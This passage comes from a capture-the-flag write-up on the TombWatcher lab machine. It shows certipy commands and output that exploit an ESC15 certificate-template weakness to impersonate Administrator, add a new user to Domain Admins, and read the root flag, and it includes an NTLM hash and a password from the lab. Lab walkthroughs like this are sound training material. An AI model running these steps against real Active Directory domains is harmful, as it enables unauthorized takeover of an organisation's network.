    Certificate Serial Number           : 3428A7FC52C310B2460F8440AA8327AC
    Certificate Validity Start          : 2024-11-16 00:47:48+00:00
    Certificate Validity End            : 2123-11-16 00:57:48+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : TOMBWATCHER.HTB\Administrators
      Access Rights
        ManageCa                        : TOMBWATCHER.HTB\Administrators
                                          TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        ManageCertificates              : TOMBWATCHER.HTB\Administrators
                                          TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Enroll                          : TOMBWATCHER.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : WebServer
    Display Name                        : Web Server
    Certificate Authorities             : tombwatcher-CA-1
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Extended Key Usage                  : Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 1
    Validity Period                     : 2 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2024-11-16T00:57:49+00:00
    Template Last Modified              : 2024-11-16T17:07:26+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
                                          TOMBWATCHER.HTB\cert_admin
      Object Control Permissions
        Owner                           : TOMBWATCHER.HTB\Enterprise Admins
        Full Control Principals         : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Owner Principals          : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Dacl Principals           : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Property Enroll           : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
                                          TOMBWATCHER.HTB\cert_admin
    [+] User Enrollable Principals      : TOMBWATCHER.HTB\cert_admin
    [!] Vulnerabilities
      ESC15                             : Enrollee supplies subject and schema version is 1.
    [*] Remarks
      ESC15                             : Only applicable if the environment has not been patched. See CVE-2024-49019 or the wiki for more details.

```

And now we should be able to requedt like a ESC1:

```
└─# certipy-ad req -ca tombwatcher-CA-1 -dc-ip 10.10.11.72 -u cert_admin@tombwatcher.htb -hashes :7dfa0531d73101ca080c7379a9bff1c7 -template WebServer -upn Administrator@tombwatcher.htb -application-policies 'Client Authentication'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 12
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator@tombwatcher.htb'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
File 'administrator.pfx' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote certificate and private key to 'administrator.pfx'

```

Now this can be used to authenticate to ldap and add a user to ad:

```
└─# certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.72 -ldap-shell
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Administrator@tombwatcher.htb'
[*] Connecting to 'ldaps://10.10.11.72:636'
[*] Authenticated to '10.10.11.72' as: 'u:TOMBWATCHER\\Administrator'
Type help for list of commands

# add_user yovecio
Attempting to create user in: %s CN=Users,DC=tombwatcher,DC=htb
Adding new user with username: yovecio and password: b}3ti=S-voY*$H+ result: OK

# add_user_to_group yovecio "Domain Admins"
Adding user: yovecio to group Domain Admins result: OK

# 

```

Now we should be able to login and get another flag:

```
*Evil-WinRM* PS C:\Users\administrator\desktop> ls


    Directory: C:\Users\administrator\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         6/7/2025   6:56 PM             34 root.txt


*Evil-WinRM* PS C:\Users\administrator\desktop> whoami
tombwatcher\yovecio
*Evil-WinRM* PS C:\Users\administrator\desktop> hostname
DC01
*Evil-WinRM* PS C:\Users\administrator\desktop> cat root.txt
2b58203497972e98e3a91fe7a4dedadc
*Evil-WinRM* PS C:\Users\administrator\desktop> 

```
